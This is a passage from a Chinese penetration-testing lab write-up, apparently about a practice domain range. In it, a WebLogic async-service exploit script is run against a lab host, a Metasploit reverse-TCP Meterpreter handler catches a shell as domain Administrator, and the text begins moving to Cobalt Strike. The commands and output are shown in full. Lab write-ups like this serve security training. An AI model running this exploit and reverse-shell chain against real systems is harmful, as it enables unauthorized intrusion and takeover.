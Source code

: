         4. 执行脚本`46780.py` ，要通过`python2`执行
            
            ```python
            python2 46780.py http://192.168.111.80:7001/_async/AsyncResponseServiceHttps
            Exploit Written by Avinash Kumar Thapa
            status_code:202
            <Response [202]>
            ```
            
        5. 最后回到Kali可以发现反弹成功了，并且用户是`DE1AY\Administrator` 
            
            ```python
            msf6 > use exploit/multi/handler 
            msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
            msf6 exploit(multi/handler) > set lhost 192.168.111.150
            msf6 exploit(multi/handler) > set lport 1234
            msf6 exploit(multi/handler) > run
            [*] Started reverse TCP handler on 192.168.111.150:1234 
            [*] Sending stage (176198 bytes) to 192.168.111.80
            [*] Meterpreter session 1 opened (192.168.111.150:1234 -> 192.168.111.80:49303) at 2024-11-16 18:38:27 +0800
            
            meterpreter > getuid
            Server username: DE1AY\Administrator
            ```
            

## 内网渗透

### MSF派生CS

1. 启动`CS`服务端，并用客户端连上
2. `CS`设置`HTTP`监听器
    
    ![image.png](image%2024.png)
    